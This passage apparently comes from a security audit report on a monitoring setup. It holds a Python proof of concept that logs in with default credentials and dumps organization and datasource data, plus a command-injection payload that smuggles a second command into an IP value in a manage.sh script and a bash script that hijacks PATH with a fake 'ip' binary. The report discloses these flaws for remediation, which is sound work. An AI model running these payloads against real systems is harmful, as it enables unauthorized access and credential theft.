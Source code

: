 ```python
        org_r = requests.get(f"{target}/api/org", headers=headers)
        print(f"[+] Organization info: {org_r.json()}")
        
        # List all datasources (may contain credentials)
        ds_r = requests.get(f"{target}/api/datasources", headers=headers)
        print(f"[+] Datasources: {ds_r.json()}")
        
        return True
    else:
        print("[-] Default credentials failed")
        return False

if __name__ == "__main__":
    exploit_default_creds("http://localhost:3000")
```

**Expected vs Actual Behavior**:
- Expected: Strong, unique credentials required
- Actual: Default credentials grant full admin access

### 2. Command Injection via IP Address in manage.sh (Critical - CVSS 8.8)

**Description**: The manage.sh script uses unsanitized IP address input in sed commands, allowing command injection through crafted IP addresses.

**Impact**: Remote code execution with the privileges of the user running the script.

#### Proof-of-Concept Exploit

**Setup Requirements**:
- Ability to control IP address resolution (e.g., in WSL environment)
- Access to run manage.sh

**Manual Exploitation**:
```bash
# Step 1: Create malicious IP response
# In WSL, the script gets IP from: ip addr show eth0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'

# Step 2: Inject command via crafted network configuration
# The IP is used in sed without quotes on line 88:
# sed "s/CLAUDE_CODE_EXPORTER_HOST/$target_ip/" 

# Exploitation payload (if we can control IP output):
export MALICIOUS_IP='1.1.1.1/; touch /tmp/pwned; echo 1.1.1.1'
```

**Automated Exploitation Script**:
```bash
#!/bin/bash
# POC: Command injection in manage.sh

# Create a fake ip command that returns malicious payload
cat > /tmp/ip << 'EOF'
#!/bin/bash
if [[ "$*" == *"addr show eth0"* ]]; then
    echo "inet 10.0.0.1/; touch /tmp/exploited; echo 10.0.0.1/24 brd"
else
    /usr/bin/ip "$@"
fi
EOF

chmod +x /tmp/ip
export PATH="/tmp:$PATH"

# Run the vulnerable script
```